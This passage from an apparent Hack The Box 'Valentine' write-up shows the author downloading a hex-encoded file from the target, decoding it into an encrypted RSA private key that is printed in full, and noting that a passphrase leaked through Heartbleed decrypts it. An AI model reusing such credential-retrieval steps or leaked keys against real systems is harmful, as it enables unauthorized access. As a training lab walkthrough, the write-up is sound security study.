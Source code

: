 
Grab it, and it decodes to an encrypted RSA cert:

    root@kali:~/hackthebox/valentine-10.10.10.79# wget https://10.10.10.79/dev/hype_key --no-check-certificate
    --2018-03-17 15:59:45--  https://10.10.10.79/dev/hype_key
    Connecting to 10.10.10.79:443... connected.
    WARNING: The certificate of ‘10.10.10.79’ is not trusted.
    WARNING: The certificate of ‘10.10.10.79’ hasn't got a known issuer.
    The certificate's owner does not match hostname ‘10.10.10.79’
    HTTP request sent, awaiting response... 200 OK
    Length: 5383 (5.3K)
    Saving to: ‘hype_key’
    
    hype_key                                      100%[==============================================================================================>]   5.26K  --.-KB/s    in 0s
    
    2018-03-17 15:59:45 (38.7 MB/s) - ‘hype_key’ saved [5383/5383]
    
    root@kali:~/hackthebox/valentine-10.10.10.79# cat hype_key | xxd -r -p
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46
    
    DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
    5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
    0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
    Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
    OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
    pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
    QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
    p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
    Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
    t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
    XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
    aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
    +wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
    AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
    r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
    2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
    e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
    09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
    dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
    cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
    pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
    Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
    suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
    l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
    RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
    -----END RSA PRIVATE KEY-----
    
    root@kali:~/hackthebox/valentine-10.10.10.79# cat hype_key | xxd -r -p > hype_key_encrypted
    

We can use openssl to try to decrypt. It asks for a password… the decode of the base64 collected with heartbleed, works:`heartbleedbelievethehype`
